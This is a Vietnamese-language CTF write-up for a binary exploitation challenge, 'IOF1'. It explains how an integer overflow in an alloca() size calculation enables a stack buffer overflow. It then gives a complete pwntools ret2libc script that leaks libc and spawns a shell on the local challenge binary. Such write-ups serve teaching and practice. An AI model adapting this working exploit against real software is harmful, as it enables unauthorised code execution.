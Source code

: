 <details>
<summary>IOF1 </summary>


**1. Tóm tắt đề:**

- Một file `iof1`
- Một file `ld-2.31.so`
- Một file `libc.so.6`
- Một file `source.c`

**2. Ý tưởng :**

- Đầu tiên ta sài `pwninit` để link với `libc` và `linker` đề cho
- Tiếp theo ta đọc source.f

![](https://i.imgur.com/4DzdGRt.png)

- Đề tạo biến `n` thuộc kiểu `unsigned long int`, sau đó gọi hàm `alloca()` để tạo buffer trên stack kế tiếp gọi hàm `read_str` để ghi vào buffer.
- Kế tiếp ta `checksec` để tìm hướng giải. Nhận thấy NX enable, PIE và Canary đều tắt do đó bài này mình thấy chỉ có giải bằng ret2libc

![](https://i.imgur.com/5O0tnvD.png)

- Để ret2libc thì hướng duy nhất là phải cho phải overflow `buffer` bằng hàm `read_str`. Cách duy nhất để thực hiện là phải sài int overflow `n*8 ` ở hàm `alloca`
- Ta check thử manpage của alloca coi argument của nó nhận range là bao nhiêu để overflow cho đúng

![](https://i.imgur.com/H2lG0wy.png)

- Nó argument của nó thuộc kiểu `size_t`, ta google tiếp xem size_t là gì thì biết được nó đại khái đại diện cho kiểu dữ liệu lớn nhất mà máy mình chịu được. Vậy `size_t` là 8 byte đối với máy 64 bit (số không dấu)

![](https://i.imgur.com/3Nwi2pH.png)


- Kế tiếp ta tìm range của `unsigned long int ` cũng như range của số 8 byte không dấu, lên document ở đây đọc thì ta được thông tin như sau : 

![](https://i.imgur.com/JZJIo3E.png)

- Để biết chính xác mình viết code test trên máy mình. 

![](https://i.imgur.com/eRRubsM.png)

- Vậy nếu ta nhập n lớn hơn số trên thì sẽ bị overflow. Argument của hàm alloca() chỉ nhận 8 byte do đó nếu ta nhập n sao cho khi nhân 8 mà kết quả lớn hơn 8 byte thì nó chỉ nhận 8 byte cuối. Ta sẽ lợi dụng nó để overflow.
- Giả sử mình muốn kết quả của `n*8` là `0x10000000000000008` (mình chọn số này vì nó là số nhỏ nhất khi bị overflow mà chia hết cho 8, chọn khác cũng được) khi đó bị overflow hàm `alloca` sẽ nhận `0x0000000000000008` vậy ta chia 8 để biết n cần nhập là bao nhiêu. Tính đúng ta được kết quả là `0x2000000000000000` tức là `2305843009213693952`.
- Vậy kế tiếp ta chỉ cần viết script để ret2libc.
```python
from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

p = process(exe.path) 
p.sendlineafter(b'> ',b'2305843009213693952')

pop_rdi = 0x00000000004013e3 
payload = b'A'*40 +  p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'Enter your secret: ',payload) 
leak = p.readline()[:-1]
leak = u64(leak.ljust(8,b'\00'))

libc.address = leak - 492448 
p.sendlineafter(b'> ',b'2305843009213693952')

payload = b'A'*40 + p64(pop_rdi)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']) 
p.sendlineafter(b'Enter your secret: ',payload) 
p.interactive() 
```

- Chạy script trên ta có được shell.

</details>

